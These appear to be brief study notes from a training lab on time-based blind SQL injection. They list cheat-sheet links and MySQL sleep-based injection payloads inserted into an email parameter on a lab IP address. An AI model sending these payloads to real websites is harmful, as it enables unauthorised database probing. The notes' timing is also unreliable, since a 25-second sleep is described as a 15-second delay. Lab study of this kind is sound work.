

---
---

# IML - SQL Injection: Blind

- Great Cheatsheets:
<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet>

<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL%20-%20Time%20Based%20SQLi/README.md>

<https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1>

- Test for Time-Based Blind SQLi:

**'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'**

`http:// 10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%27XOR(if(now()=sysdate(),sleep(5*5),0))OR%27`

**'XOR(if(1=1,sleep(5\*5),0))OR'**

`http:// 10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%20%27XOR(if(1=1,sleep(5*5),0))OR%27`

**'XOR(if(2=1,sleep(5\*5),0))OR'** \<--- This shouldn't work because the statement is false (2=1)

If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack

Website hangs for approx 15sec, so it's probably vulnerable
